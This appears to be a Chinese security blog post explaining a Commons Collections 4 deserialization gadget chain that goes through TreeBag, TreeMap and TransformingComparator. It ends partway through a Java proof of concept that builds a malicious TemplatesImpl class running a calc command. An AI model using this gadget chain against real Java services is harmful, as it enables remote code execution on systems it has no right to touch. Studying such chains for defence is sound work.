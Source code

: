 ### 前置知识
#### TreeBag & TreeMap
Bag 接口继承自 Collection 接口，定义了一个集合，该集合会记录对象在集合中出现的次数。它有一个子接口 SortedBag，定义了一种可以对其唯一不重复成员排序的 Bag 类型

TreeBag 是对 SortedBag 的一个标准实现。TreeBag 使用 TreeMap 来储存数据，并使用指定 Comparator 来进行排序
![](https://img-blog.csdnimg.cn/080c934b0b3d4024821ea8bd97e48364.png)
TreeBag 继承自 AbstractMapBag，实现了 SortedBag 接口。初始化 TreeBag 时，会创建一个新的 TreeMap 储存在成员变量 map 里，而排序使用的 Comparator 则直接储存在 TreeMap 中
![](https://img-blog.csdnimg.cn/29f518340138427eada31b0061cf4ba6.png)
在对 TreeBag 反序列化时，会将反序列化出来的 Comparator 对象交给 TreeMap 实例化，并调用父类的`doReadObject`方法处理
![](https://img-blog.csdnimg.cn/328480a18f6c4173a1d1d9929c2257af.png)
而`doReadObject`方法会向 TreeMap 中 put 数据
![](https://img-blog.csdnimg.cn/fa3d4ce9af4147a3aa2c34aafb50d566.png)
类似优先级队列，对于这种有序的储存数据的集合，反序列化数据时一定会对其进行排序动作，而 TreeBag 则是依赖了 TreeMap 在 put 数据时会调用 compare 进行排序的特点来实现数据顺序的保存
![](https://img-blog.csdnimg.cn/5f6d62e67a0540088514176c7b2435bd.png)
毫无疑问，compare 方法中调用了 comparator 进行比较，那我们就可以使用 TransformingComparator 触发后续的逻辑
![](https://img-blog.csdnimg.cn/42c95d800f984eaba756f9a640cce6ae.png)
### 攻击构造
#### PriorityQueue
使用 PriorityQueue 反序列化时触发的 TransformingComparator 的 compare 方法，就会触发 ChainedTransformer 的 tranform 方法链，其中利用 InstantiateTransformer 实例化 TrAXFilter 类，此类实例化时会调用 TemplatesImpl 的 newTransformer 实例化恶意类，执行恶意代码

POC：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cc4 {
    public static void main(String[] args) throws Exception {

        // 读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections444");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] bytes=payload.toBytecode();

        // 初始化 TemplatesImpl 对象
        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        // _name 不能为空
```